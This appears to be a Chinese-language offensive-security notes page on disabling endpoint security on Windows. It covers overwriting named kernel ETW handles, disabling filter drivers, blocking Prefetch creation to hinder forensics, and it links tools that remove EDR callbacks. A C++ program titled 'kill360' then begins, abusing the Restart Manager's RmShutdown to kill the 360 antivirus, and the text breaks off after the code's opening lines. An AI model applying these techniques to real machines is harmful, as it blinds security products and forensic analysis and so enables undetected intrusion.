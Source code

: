 除此之外攻击者禁用了白名单之外的Mini File Filter与WFP驱动程序，破坏安全产品对于文件系统和网络流量的检测能力。ETW是Windows操作系统提供的安全事件日志采集的基础设施，帮助EDR等安全产品捕获恶意行为，攻击者通过对于ETW相关的一系列句柄与参数的覆写破坏了ETW的可用性。

篡改的ETW相关数据结构

- nt!EtwpEventTracingProvRegHandle

- nt!EtwKernelProvRegHandle

- nt!EtwpPsProvRegHandle

- nt!EtwpNetProvRegHandle

- nt!EtwpDiskProvRegHandle

- nt!EtwpFileProvRegHandle

- nt!EtwSecurityMitigationsRegHandle

- nt!EtwpHostSiloState

### 四、反取证-禁用Windows Prefetch文件创建

Windows Prefetch（预读取）文件被设计以加速程序的打开速度，其中存储了近期执行程序的记录。进程路径、文件创建/修改/执行时间等信息，也为恶意程序执行的分析取证提供了机会。

攻击者通过内核中nt!PfSnNumActiveTraces数据结构的篡改，禁用了Windows Prefetch文件的创建，达到反取证的目的。当该数据结构的值被篡改后，生成Prefetch文件的关键函数PfSnBeginTrace将永远返回-1，达到破坏生成的目的。

## 移除回调

win64 HOOK SSDT  kpp patchguard  回调

https://github.com/br-sn/CheekyBlinder

https://github.com/RedCursorSecurityConsulting/PPLKiller

https://github.com/uf0o/windows-ps-callbacks-experiments/tree/master/edr-driver

https://github.com/lawiet47/STFUEDR

## 阻止流量出站

https://www.wangan.com/p/11v8239694f8fe03

## R3 terminate

### RmShutdow机制的滥用

https://learn.microsoft.com/en-us/windows/win32/rstmgr/restart-manager-portal

https://www.crowdstrike.com/blog/windows-restart-manager-part-1/

### kill360

```c++
#include <windows.h>
#include <RestartManager.h>
#include <stdio.h>
#pragma comment(lib,"Rstrtmgr.lib")
/*
1.开始一个新的会话，使用 RmStartSession 函数。这将返回一个会话句柄和一个会话密钥。
2.将要管理的文件或进程注册为资源，使用 RmRegisterResources 函数。
3.使用 RmGetList 函数来检索所有与已注册的资源相关的进程信息。这将返回一个包含 RM_PROCESS_INFO 结构的数组，其中包含有关这些进程的详细信息，例如进程 ID 和进程名称。
4.使用 RmShutdown 函数来关闭所有与已注册的资源相关的进程。这将使这些进程在关闭时执行一个安全的关闭过程，以确保数据的一致性和完整性。
5.最后，使用 RmEndSession 函数来结束会话
*/
int __cdecl wmain(int argc, WCHAR** argv)
{
  DWORD dwSessionHandle = 0xFFFFFFFF;
  WCHAR szSessionKey[CCH_RM_SESSION_KEY + 1] = { 0 };
```